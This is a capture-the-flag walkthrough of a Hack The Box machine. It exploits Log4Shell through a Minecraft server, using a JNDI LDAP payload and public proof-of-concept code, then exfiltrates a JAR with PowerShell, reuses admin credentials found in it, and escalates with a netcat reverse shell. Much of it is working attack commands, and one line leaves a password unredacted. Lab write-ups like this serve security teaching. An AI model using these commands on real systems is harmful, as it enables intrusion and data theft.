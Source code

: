 

Welcome to a comprehensive walkthrough of an Easy level machine in Hack The Box's Seasonal Challenges. Despite its classification, this challenge proves to be more of a medium-level difficulty, particularly if you're not using a pwnbox. 



Our journey begins with an initial reconnaissance phase. Using the powerful network scanning tool nmap, we conduct a scan to identify open ports and services:

```bash
nmap -v -T4 10.10.10.10 --min-rate 5000  -Pn -p- 
```

- `-v`: Increased verbosity for detailed scan output.
- `-T4`: Set timing template for faster scanning.
- `--min-rate 5000`: Specified the minimum packet-per-second rate, optimizing scan speed.
- `-Pn`: Skipped host discovery, treating all hosts as online.
- `-p-`: Scanned all 65535 ports, maximizing service discovery.


The scan reveals two crucial open ports: port 80 hosting a website related to Minecraft and port 25565 hosting the actual Minecraft server.

```plaintext
[] Nmap: PORT      STATE SERVICE
[] Nmap: 80/tcp    open  http
[] Nmap: 25565/tcp open  minecraft
[] Nmap: Read data files from: /usr/bin/../share/nmap
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in
```



We can attempt to connect to this server for more information. I used this repository [MCCTeam/Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client/releases) to connect to the Minecraft service. MCC is a third-party tool used to interact with Minecraft servers via the command line.

After connecting, we get the Minecraft version installed. We can search for related application vulnerabilities on the internet. This application, like many others, utilizes the Java logging library.

We could further observe that this service is vulnerable to CVE-2021-44228. This vulnerability can be exploited to execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.

CVE-2021-44228, a critical vulnerability within the Java logging library, allows arbitrary code execution. Exploiting it involves crafting a payload to manipulate LDAP references, establishing a reverse shell into Crafty's system.

I found this repository [kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc/tree/main), which can be used to exploit the vulnerability.

It has a single line use, which sets up the HTTP server, and LDAP referrer and the Java class payload to upload and get us a reverse shell when executed.

```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
```

To make this exploit work, we need to download the relevant dependencies as mentioned in the exploit GitHub page:

```bash
pip install -r requirements.txt
```

Get the compatible version of Java, i.e., '8u20'. Extract and save it with the name 'jdk1.8.0_20' in the same path as that of poc.py file. [Java SE 8 Archive Downloads](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

Go to the downloaded POC folder and use this command to download the file (for Linux 64-bit systems):

```bash
wget -c --no-cookies --no-check-certificate --header "Cookie: oraclelicense=accept-securebackup-cookie" https://download.oracle.com/otn/java/jdk/8u202-b08/1961070e4c9b4e26a04e7f5a083f551e/jdk-8u202-linux-x64.tar.gz
```

After installing all the dependencies, initiate the Minecraft client to connect to the server:

```bash
┌──(root💀kali)-[/home/kali/Minecraft-Console-Client]
└─# ./MinecraftClient-20240130-245-linux-x64 <username>
```


![Pasted image 20240219014106](assets/305748026-1b82343a-5382-4ebf-a837-fb68fb639ac1.png)

(Note: Press enter when it prompts for a password, as in setting no password. Input server IP (HTB target IP), and we should be connected to the server)

[start netcat listener in 2nd tab]

```bash
nc -nvlp 9001
```

[Execute the POC script in the third tab]

```bash
$ python3 poc.py --userip 10.10.10.10 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit Java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://10.10.10.10:1389/a}

Listening on 10.10.10.10:1389
```

(If you are connected to HTB VPN, be sure to select the IP associated with the HTB VPN in `--userip`)

Now we need to send this command in the Minecraft console:

```bash
${jndi:ldap://10.10.10.10:1389/a}
```

After sending this command, we receive a reverse shell on our netcat listener. We could see a LDAP redirect and the HTTP 'GET' request to download and execute the payload 'Exploit.class' for the initial foothold.



![Pasted image 20240219014236](assets/305748059-5a973019-ccc2-4b26-81bd-b357e640c3ae.png)


We can do a few checks on the system to view files, assessable directories, and current privileges.

![Pasted image 20240219014403](assets/305748062-1f010d2e-032c-4ef0-ad3a-976925de537b.png)


We've got foothold as a service account `crafty\svc_minecraft` and landed in a Minecraft service directory `C:\users\svc_minecraft\server` . Viewing the files and paths for the Minecraft service hosted, we see few JAR files, and one of them is in the `\plugins` path.

![Pasted image 20240219021701](assets/305748066-6f8ec5d2-1d82-4bbc-baa5-c4881133289e.png)


![Pasted image 20240219021648](assets/305748071-4da6c36b-eff9-4e46-a0cb-d1741d5e92ee.png)


We need to retrieve those files and check what all data we can get.

For exfiltrating the file from the victim machine, we can do as follows:

Note: The victim host doesn't have a firewall or antivirus configured.

Setup a post HTTP server and host it on the attacker machine:

```bash
sudo python3 SimpleHTTPServerWithUpload.py -b 10.10.10.10 1234
```

On the victim machine, we can use PowerShell to upload the file to the server.

Note: Navigate to the file where the file is located and execute this, or provide the complete file path.

Start PowerShell:

```bash
powershell -ep bypass
```

Upload the file to the server:

```bash
powershell (New-Object System.Net.Webclient).UploadFile('http://10.10.10.10:1234/', 'playercounter-1.0-SNAPSHOT.jar')
```

Verify by checking file hashes on both hosts to check if the file was transferred successfully:

Check file hash on PowerShell (Victim):

```bash
Get-FileHash c:\users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar -Algorithm MD5
```
```plaintext
Algorithm       Hash                                                                   Path                            
---------       ----                                                                   ----                            
MD5             349F6584E18CD85FC9E014DA154EFE03                                       C:\users\svc_minecraft\server...
```

On attacker:

```bash
┌──(kali㉿kali)-[~/SimpleHTTPServerWithUpload]
└─$ md5sum playercounter-1.0-SNAPSHOT.jar 
349f6584e18cd85fc9e014da154efe03  playercounter-1.0-SNAPSHOT.jar
```

We can extract and view the contents, and we could also view these files on any online Java decompiler.

I used [https://www.decompiler.com/](https://www.decompiler.com/)

Reviewing the files, we notice the authentication pattern, consisting of IP, port, and password. We could find one misconfigured test file with the admin credentials of the 'Administrator' account.

We still have low privileges on the host, and we don't have any other running services where this credential can be leveraged.

With the reverse shell already established, we can attempt `runas /user:administrator`, but this method is ineffective as the shell is non-interactive.


>On the attacker machine, we'll host the executable directory containing nc.exe for HTTP download.

```bash
└─$ sudo python3 -m http.server 80                       
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And initiate a netcat listener for the shell with administrative privileges.

```bash
nc -nvlp 4444
```

>On the victim machine

We'll use PowerShell, capable of storing values in declared variables.

We create a temp directory, download the hosted netcat binary, and execute it with administrative privileges to get a reverse shell with elevated privileges on the attacker machine

```PowerShell
C:\users\svc_minecraft\server\plugins> cd C:\
C:\> 
C:\>mkdir temp
mkdir temp

C:\>cd temp
cd temp

C:\temp>powershell -ep bypass
powershell -ep bypass
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\temp> wget http://10.10.10.10:80/nc.exe -o nc.exe        
wget http://10.10.10.10:80/nc.exe -o nc.exe
PS C:\temp> ls
ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/13/2024   1:50 AM          59392 nc.exe                                                                


PS C:\temp> $secpasswd = ConvertTo-SecureString "s67u84zKq8IXw" -AsPlainText -Force
$secpasswd = ConvertTo-SecureString "<Redacted>" -AsPlainText -Force
PS C:\temp> $mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
PS C:\temp> Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -Credential $mycreds
Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -Credential $mycreds
PS C:\temp> 
```

-- the credentials are redacted, for you to find!!

>On the attacker machine, we successfully get an administrative reverse shell, which can be further exploited to get a meterpreter shell, dump hashes navigate to the user administrator directory to retrieve the root flag!



